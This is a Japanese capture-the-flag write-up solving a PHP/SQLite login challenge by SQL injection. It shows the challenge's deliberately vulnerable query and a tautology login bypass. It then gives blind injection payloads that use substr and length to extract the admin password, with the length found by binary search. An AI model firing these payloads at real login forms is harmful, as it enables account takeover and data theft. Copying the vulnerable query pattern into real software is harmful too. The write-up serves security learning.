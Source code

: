 自力解答ならず。  

``ID``に``admin``、``Pass``に``' or 1=1;--``を入力して送信。  
ヒントが表示される。  

```php
// Congratulations!
// It's too easy?
// Don't worry.
// The flag is admin's password.

// Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

ここで詰まる。  

### 正解

Blind SQL Injection。SQLの結果の違いから正解を絞り込んでいく手法。徳丸本とかで見たことはあるけど、自分で実践するのは初めて。  

まずパスワードの先頭が``FLAG_``の形式になっているかを調べる。ちなみに``substr``の第二引数は1-indexed。  

```
' or substr((select pass from user where id = 'admin'), 1, 1) = 'F'; --
' or substr((select pass from user where id = 'admin'), 2, 1) = 'L'; --
' or substr((select pass from user where id = 'admin'), 3, 1) = 'A'; --
' or substr((select pass from user where id = 'admin'), 4, 1) = 'G'; --
' or substr((select pass from user where id = 'admin'), 5, 1) = '_'; --
```

上記のすべてで``Congratulations!``。パスワードは``FLAG_xxx``の形式で確定。  

次にパスワードの文字数を調べる。以下を``ID``欄に打ち込む。``Congratulations!``。  

```
' or (select length(pass) from user where id = 'admin') > 1;--
```

次は以下。``Login Failed``。  

```
' or (select length(pass) from user where id = 'admin') > 100;--
```

後は二分探索。``> 20``だと``Congratulations!``で``> 21``だと``Login Failed``だったので、パスワードは21文字。  

``FLAG_``の分を抜いた残りの16文字は総当たり。  

```bash
$ python3 crack.py
```

### 参考

- [SQLite Substr | SQLITE TUTORIAL](https://www.sqlitetutorial.net/sqlite-functions/sqlite-substr/)
- [Blind SQL injection | PortSwigger](https://portswigger.net/web-security/sql-injection/blind)

